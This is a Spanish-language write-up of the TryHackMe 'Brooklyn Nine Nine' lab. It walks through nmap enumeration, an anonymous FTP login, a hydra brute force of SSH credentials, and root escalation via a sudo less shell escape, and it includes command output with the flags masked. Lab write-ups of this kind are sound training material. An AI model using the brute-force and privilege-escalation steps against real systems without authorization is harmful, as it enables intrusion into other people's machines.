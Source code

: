 ```yaml
---
title: TryHackMe Brookling Nine Nine Writeup
published: true
---
```


La máquina Brookling99 es una máquina de TryHackMe en la que mediante la explotación de un servidor web conseguimos tanto la flag del usuario como la de root.

# [](#header-1)Enumeración

La enumeración se trata de una de las fases principales, en las que recolectamos la máxima información posible de la máquina víctima.

Usaremos nmap para analizar los puertos abiertos:

```bash
nmap -p- --open --min-rate 5000 -vvv -n $IP-VICTIMA -oG allPorts
```

*  Escaneo todos los puertos abiertos: -p- --open

*  Mediante --min-rate 5000 indicamos que queremos emitir paquetes no más lentos que 5000 paquetes por segundo.

*  Triple verbose (-vvv) para que vaya reportando por consola los puertos abiertos y no tener que esperar al final del escaneo.

*  Para que el escaneo no aplique resolución DNS usamos -n

*  En mi caso exporto los puertos abiertos en formato grepeable (-oG) al archivo allPorts

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-14 06:22 EDT
Initiating Connect Scan at 06:22
Scanning 10.10.209.206 [65535 ports]
Discovered open port 22/tcp on 10.10.209.206
Discovered open port 21/tcp on 10.10.209.206
Discovered open port 80/tcp on 10.10.209.206
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 76.50% done; ETC: 06:23 (0:00:05 remaining)
Completed Connect Scan at 06:23, 19.84s elapsed (65535 total ports)
Nmap scan report for 10.10.209.206
Host is up, received user-set (0.058s latency).
Scanned at 2022-10-14 06:22:57 EDT for 19s
Not shown: 40658 closed tcp ports (conn-refused), 24874 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 19.89 seconds
```

Nos reporta una serie de puertos abiertos. Debido a que el puerto 80 está abierto, introducimos la $IP-VICTIMA en un buscador y nos reporta una imagen con el título de la máquina junto a un pequeño texo. El texto no nos da información por lo que checkeamos la consola para tratar de conseguir algo más.

Conseguimos obtener un comentario en la consola que dice:

```html
Have you ever heard of steganography?
```
Lo tendremos en cuenta. A parte del puerto 80, están abiertos el 21 y 22. En el puerto 21 está corriedno un servicio ftp por lo que vamos a realizar un escaneo con nmap para obtener más información de estos:

```bash
❯ nmap -sCV -p21,22,80 10.10.209.206 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-14 06:27 EDT
Nmap scan report for 10.10.209.206
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.79.39
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.23 seconds
[1]    4872 segmentation fault  nmap -sCV -p21,22,80 10.10.209.206 -oN targeted
```

Parece ser que nos podemos logear con el usuario Anonyous y sin contraseña. Además existe un archivo .txt

Nos conectamos entonces con ese usuario y sin contraseña:

```bash
❯ ftp 10.10.209.206
Connected to 10.10.209.206.
220 (vsFTPd 3.0.3)
Name (10.10.209.206:jorge): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Listamos el contendio y nos aparece el archivo .txt

Usando el comando get nos la podemos pasar a nuestro equipo. La abrimos y vemos su contenido:

```bash
ftp> ls
229 Entering Extended Passive Mode (|||30950|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
229 Entering Extended Passive Mode (|||13605|)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |********************************************************|   119       34.03 KiB/s    00:00 ETA
226 Transfer complete.
119 bytes received in 00:00 (2.18 KiB/s)
```

Lo abrimos en nuestro equipo:

```bash
❯ cat note_to_jake.txt
───────┬─────────────────────────────────────────────────────────────────────────────────────────────
       │ File: note_to_jake.txt
───────┼─────────────────────────────────────────────────────────────────────────────────────────────
   1   │ From Amy,
   2   │ 
   3   │ Jake please change your password. It is too weak and holt will be mad if someone hack into 
       │ the nine nine
   4   │ 
   5   │ 
───────┴─────────────────────────────────────────────────────────────────────────────────────────────
```

Nos dan la información que el usuario Jake tiene una contraseña débil, por lo que mediante hydra intentamos conseguirla:

```bash
❯ hydra -l jake -P /home/jorge/Descargas/rockyou.txt 10.10.209.206 -t 4 ssh
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-10-14 06:53:57
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344401 login tries (l:1/p:14344401), ~3586101 tries per task
[DATA] attacking ssh://10.10.209.206:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344357 to do in 5433:29h, 4 active
[22][ssh] host: 10.10.209.206   login: jake   password: ?????????
```

# []($header-1)Acceso al sistema

La conseguimos e intentamos conectarnos mediante SSH con el usuario y la contraseña

```bash
❯ ssh jake@10.10.209.206
The authenticity of host '10.10.209.206 (10.10.209.206)' can't be established.
ED25519 key fingerprint is SHA256:ceqkN71gGrXeq+J5/dquPWgcPWwTmP2mBdFS2ODPZZU.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:4: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.209.206' (ED25519) to the list of known hosts.
jake@10.10.209.206's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$ 
```

Estamos dentro! Investigamos un poco por los usuarios y conseguimos la flag del usuario:

```bash
jake@brookly_nine_nine:~$ cd /home
jake@brookly_nine_nine:/home$ cd holt/
jake@brookly_nine_nine:/home/holt$ ls
nano.save  user.txt
jake@brookly_nine_nine:/home/holt$ cat user.txt
???????????????????????????????
jake@brookly_nine_nine:/home/holt$ 
```

En este punto podemos usar sudo -l para ver los permisos que tenemos a la hora de ejecutar comandos:

```bash
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

# []($header-1)Escalada de privilegios

Podemos usar el comando less como root: Nos dirigimos a <a href="http://gtfobins.github.io">GTFOBins</a> y buscamos el binario less y lo que podemos hacer siendo sudo.

Nos reporta esta información:

> sudo less /etc/profile
>
> !/bin/sh

Ejecutamos entonces el comando (sudo less /etc/profile) e introducimos !/bin/sh

Hemos conseguido el acceso total al sistema y si hacemos whoami nos reporta que somos root, parece ser que no nos ha hecho falta usar esteganografía.

Investigamos por el directorio de root y conseguimos la flag del mismo:

```bash
# whoami
root
# ls
# cd /root
# ls
root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: ??????????????????????????????

Enjoy!!
```
Conseguimos la flag de root!

Muchas gracias por leer este writeup, espero que te haya gustado!
